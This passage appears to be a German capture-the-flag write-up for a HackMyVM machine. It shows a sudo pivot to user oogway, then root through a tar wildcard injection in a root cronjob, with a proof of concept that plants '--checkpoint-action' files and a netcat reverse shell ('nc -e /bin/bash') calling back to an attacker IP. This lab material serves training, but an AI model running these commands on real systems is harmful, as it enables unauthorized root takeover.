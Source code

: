 2.  **Ausnutzung:**
    *   `sudo -u oogway /bin/bash`
    *   Obwohl eine Fehlermeldung (`sudo: unable to resolve host HackMyVM`) erschien, wurde erfolgreich eine Shell als Benutzer `oogway` erlangt.
    *   Die User-Flag wurde in `/home/oogway/user.txt` gefunden: `081ecc5e6dd6ba0d150fc4bc0e62ec50`.

### oogway zu root (Cronjob & Tar Wildcard Injection)

1.  **Enumeration als `oogway`:**
    *   `grep -lir "/opt/secret" / 2>/dev/null` fand die Datei `/etc/crontab`.
    *   `cat /etc/crontab` enthüllte einen kritischen Cronjob:
        ```cron
        * * * * * root cd /opt/secret/ && tar -zcf /var/backups/secret.tgz *
        ```
    *   Dieser Cronjob führt jede Minute `tar` mit einer Wildcard (`*`) als `root` im Verzeichnis `/opt/secret/` aus. Es wurde angenommen, dass `oogway` Schreibrechte in `/opt/secret/` hat.

2.  **Vorbereitung der Tar Wildcard Injection:**
    *   Im Verzeichnis `/opt/secret/` wurden als `oogway` folgende Dateien erstellt:
        ```bash
        touch -- --checkpoint=1
        touch -- "--checkpoint-action=exec=sh rs"
        echo "nc -e /bin/bash [Angreifer-IP] 80" > rs 
        # Ersetze [Angreifer-IP] mit der IP des Angreifer-Systems (z.B. 192.168.2.153)
        ```

3.  **Empfang der Root-Shell:**
    *   Auf dem Angreifer-System wurde ein Netcat-Listener gestartet: `nc -lvnp 80`.
    *   Nach maximal einer Minute führte der Cronjob auf dem Zielsystem die `tar`-Payload aus, was eine Reverse Shell als `root` zum Listener des Angreifers startete.
    *   `id` in der neuen Shell bestätigte `uid=0(root)`.

---

## Proof of Concept (Root Access via Tar Wildcard Injection)

**Kurzbeschreibung:** Die finale Privilegieneskalation erfolgte durch Ausnutzung eines unsicher konfigurierten Cronjobs. Dieser führte `tar` mit einer Wildcard als `root` in einem für den Benutzer `oogway` beschreibbaren Verzeichnis (`/opt/secret/`) aus. Durch Erstellen von Dateien mit speziellen Namen, die von `tar` als Optionen interpretiert werden (`--checkpoint=1` und `--checkpoint-action=exec=sh [SKRIPT]`), konnte beliebiger Code (hier eine Reverse Shell) als `root` ausgeführt werden.

**Schritte (als `oogway`):**
1.  Wechsle in das Verzeichnis `/opt/secret/` (falls nicht bereits geschehen).
2.  Erstelle die Payload-Dateien:
    ```bash
    touch -- --checkpoint=1
    touch -- "--checkpoint-action=exec=sh rs"
    echo "nc -e /bin/bash [IP_DES_ANGREIFERS] [PORT]" > rs 
    # z.B. echo "nc -e /bin/bash 192.168.2.153 80" > rs
    chmod +x rs # Sicherstellen, dass das Skript ausführbar ist
    ```
3.  Starte einen Netcat-Listener auf dem Angreifer-System auf dem gewählten Port:
    ```bash
    nc -lvnp [PORT] # z.B. nc -lvnp 80
    ```
4.  Warte maximal eine Minute, bis der Cronjob ausgeführt wird.
**Ergebnis:** Eine Reverse Shell mit `uid=0(root)` verbindet sich zum Listener.

---